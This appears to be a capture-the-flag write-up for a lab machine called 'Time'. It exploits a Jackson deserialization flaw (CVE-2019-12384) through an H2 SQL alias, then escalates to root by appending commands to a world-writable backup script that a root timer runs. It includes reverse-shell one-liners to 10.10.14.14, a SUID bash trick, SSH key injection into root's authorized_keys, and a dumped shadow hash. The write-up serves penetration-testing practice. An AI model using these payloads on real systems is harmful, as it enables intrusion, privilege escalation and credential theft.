

# Time

## Machine Info


## Recon

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Online JSON parser
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- 2 JSON processing modes




```console
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

- the package is `jackson` used for JSON beautifying and validation

## Foothold

### CVE-2019-12384: Jackson RCE & SSRF

Refereces:

- https://github.com/jas502n/CVE-2019-12384

- https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

POC:


```console
└─╼$ cat inject.sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('ping 10.10.14.14 -c 3')

└─╼$ sudo python -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.10.214 - - [30/Jan/2024 04:10:37] "GET /inject.sql HTTP/1.1" 200 -
```

```console
└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
04:13:11.906448 IP 10.10.10.214 > 10.10.14.14: ICMP echo request, id 1, seq 1, length 64
04:13:11.908514 IP 10.10.14.14 > 10.10.10.214: ICMP echo reply, id 1, seq 1, length 64
04:13:12.907756 IP 10.10.10.214 > 10.10.14.14: ICMP echo request, id 1, seq 2, length 64
04:13:12.907771 IP 10.10.14.14 > 10.10.10.214: ICMP echo reply, id 1, seq 2, length 64
04:13:13.909559 IP 10.10.10.214 > 10.10.14.14: ICMP echo request, id 1, seq 3, length 64
04:13:13.909573 IP 10.10.14.14 > 10.10.10.214: ICMP echo reply, id 1, seq 3, length 64
```

Exploit:

```console
└─╼$ cat inject.sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.14/1234 0>&1"')
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.214] 53892
bash: cannot set terminal process group (839): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ id
uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)
pericles@time:/var/www/html$ uname -a
Linux time 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

## Privilege Escalation

- enum timers

```console
pericles@time:/home/pericles$ systemctl list-timers
NEXT                        LEFT          LAST                        PASSED                UNIT                         ACTIVATES
Mon 2024-01-29 20:19:51 UTC 8s left       Mon 2024-01-29 20:19:41 UTC 1s ago                timer_backup.timer           timer_backup.service
Mon 2024-01-29 20:39:00 UTC 19min left    Mon 2024-01-29 20:09:01 UTC 10min ago             phpsessionclean.timer        phpsessionclean.service
Tue 2024-01-30 00:00:00 UTC 3h 40min left Mon 2024-01-29 19:33:06 UTC 46min ago             logrotate.timer              logrotate.service
Tue 2024-01-30 00:00:00 UTC 3h 40min left Mon 2024-01-29 19:33:06 UTC 46min ago             man-db.timer                 man-db.service
Tue 2024-01-30 00:30:31 UTC 4h 10min left Thu 2020-10-22 20:24:53 UTC 3 years 3 months ago  fwupd-refresh.timer          fwupd-refresh.service
Tue 2024-01-30 01:32:42 UTC 5h 12min left Tue 2021-02-09 14:42:14 UTC 2 years 11 months ago motd-news.timer              motd-news.service
Tue 2024-01-30 06:07:46 UTC 9h left       Mon 2024-01-29 20:07:41 UTC 12min ago             apt-daily-upgrade.timer      apt-daily-upgrade.service
Tue 2024-01-30 06:36:53 UTC 10h left      Thu 2020-10-22 18:44:20 UTC 3 years 3 months ago  apt-daily.timer              apt-daily.service
Tue 2024-01-30 19:48:01 UTC 23h left      Mon 2024-01-29 19:48:01 UTC 31min ago             systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service
Sun 2024-02-04 03:10:57 UTC 5 days left   Mon 2024-01-29 19:33:27 UTC 46min ago             e2scrub_all.timer            e2scrub_all.service
Mon 2024-02-05 00:00:00 UTC 6 days left   Mon 2024-01-29 19:33:06 UTC 46min ago             fstrim.timer                 fstrim.service

11 timers listed.
Pass --all to see loaded but inactive timers, too.
```

- enum scripts used in this special timer `timer_backup.service`
  - script used by root
  - script is writable by anyone => write into exploitable code

```console
pericles@time:/etc/systemd$ find / -name 'timer_backup.service' 2>/dev/null
/etc/systemd/system/timer_backup.service
pericles@time:/etc/systemd$ cat /etc/systemd/system/timer_backup.service
[Unit]
Description=Calls website backup
Wants=timer_backup.timer
WantedBy=multi-user.target

[Service]
ExecStart=/usr/bin/systemctl restart web_backup.service
pericles@time:/etc/systemd$ cat /etc/systemd/system/web_backup.service
[Unit]
Description=Creates backups of the website

[Service]
ExecStart=/bin/bash /usr/bin/timer_backup.sh
pericles@time:/etc/systemd$ cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip

pericles@time:/etc/systemd$ ls -l /usr/bin/timer_backup.sh
-rwxrw-rw- 1 pericles pericles 88 Jan 29 20:20 /usr/bin/timer_backup.sh
```

methods of getting root privilege:

1. reverse shell

```console
pericles@time:/tmp$ echo 'bash -c "bash -i >& /dev/tcp/10.10.14.14/1234 0>&1"' >> /usr/bin/timer_backup.sh
pericles@time:/tmp$ cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
bash -c "bash -i >& /dev/tcp/10.10.14.14/1234 0>&1"
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.214] 53898
bash: cannot set terminal process group (11226): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# id
uid=0(root) gid=0(root) groups=0(root)
root@time:/# uname -a
Linux time 5.4.0-52-generic #57-Ubuntu SMP Thu Oct 15 10:57:00 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

2. cp bash and set suid

```console
pericles@time:/home/pericles$ echo 'cd /home/pericles;cp /bin/bash mybash;chown root mybash;chmod +xs mybash' >> /usr/bin/timer_backup.sh
pericles@time:/home/pericles$ ls -al | grep mybash
-rwsr-sr-x 1 root     root     1183448 Jan 29 20:56 mybash
pericles@time:/home/pericles$ ./mybash -p
id
uid=1000(pericles) gid=1000(pericles) euid=0(root) egid=0(root) groups=0(root),1000(pericles)
cat /etc/shadow | head -n 5
root:$6$tQUjJ4lm/s2nyGlV$ApmVk8.fwtUjA7XlmZn3dn7hATdrg1if1nKnRBu9qrbF6rB5dfiwpkz7gQhdr5YIeqqKjBGif06acgM3stn991:18542:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
```

3. cp local ssh pub key and write into root's authorized_keys

```console
pericles@time:/var/www/html$ echo "mkdir -p /root/.ssh;echo 'ssh-rsa AAAA...s1cs2c/8= qwe@kali' >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

## Exploit Chain

port scan -> jackson package -> RCE & SSRF -> reverse shell injection -> pericles shell -> system backup timer -> writable script executed by root -> inject exploit code -> root shell
